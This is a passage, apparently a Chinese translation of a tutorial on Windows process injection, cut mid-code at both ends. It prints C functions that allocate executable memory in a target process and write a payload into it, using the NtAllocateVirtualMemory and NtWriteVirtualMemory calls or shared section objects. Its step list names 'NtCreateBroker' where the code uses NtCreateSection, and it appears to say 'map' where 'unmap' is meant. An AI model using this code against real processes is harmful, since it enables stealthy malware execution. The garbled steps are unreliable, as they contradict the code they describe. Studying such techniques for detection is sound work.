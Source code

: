 ```
    return ptr;
`}`
```

或者使用Nt/Zw API。

```
LPVOID CopyPayload2(HANDLE hp, LPVOID payload, ULONG payloadSize)`{`
    LPVOID   ptr=NULL;
    ULONG    len=payloadSize;
    NTSTATUS nt;
    ULONG    tmp;

    // 1. allocate memory
    NtAllocateVirtualMemory(hp, &amp;ptr, 0, 
      &amp;len, MEM_COMMIT|MEM_RESERVE,
      PAGE_EXECUTE|PAGE_READWRITE);

    // 2. write payload
    NtWriteVirtualMemory(hp, ptr, 
      payload, payloadSize, &amp;tmp);

    return ptr;
`}`
```

虽然这里没有显示，但可能会使用其他操作来删除虚拟内存的写入权限。



## 创建section object

另一种方法是使用section object。微软对此有何说明？

> section object表示可以共享的内存段。进程可以使用section object与其他进程共享其内存地址空间的一部分。section object还提供了进程可以将文件映射到其内存地址空间的机制。

虽然在常规应用程序中使用这些API表明存在恶意，但攻击者将继续使用它们进行进程注入。
1. 使用NtCreateBroker创建一个新的section object，并将其分配给S。
1. 使用NtMapViewOfSection映射攻击进程的S视图，并分配给B1。
1. 使用NtMapViewOfSection映射目标进程的S视图，并分配给B2。
1. 将payload复制到B1。
1. 映射B1。
1. 关闭S
1. 返回指向B2的指针。
```
LPVOID CopyPayload3(HANDLE hp, LPVOID payload, ULONG payloadSize)`{`
    HANDLE        s;
    LPVOID        ba1=NULL, ba2=NULL;
    ULONG         vs=0;
    LARGE_INTEGER li;

    li.HighPart = 0;
    li.LowPart  = payloadSize;

    // 1. create a new section
    NtCreateSection(&amp;s, SECTION_ALL_ACCESS, 
      NULL, &amp;li, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

    // 2. map view of section for current process
    NtMapViewOfSection(s, GetCurrentProcess(),
      &amp;ba1, 0, 0, 0, &amp;vs, ViewShare,
      0, PAGE_EXECUTE_READWRITE);

    // 3. map view of section for target process  
    NtMapViewOfSection(s, hp, &amp;ba2, 0, 0, 0, 
```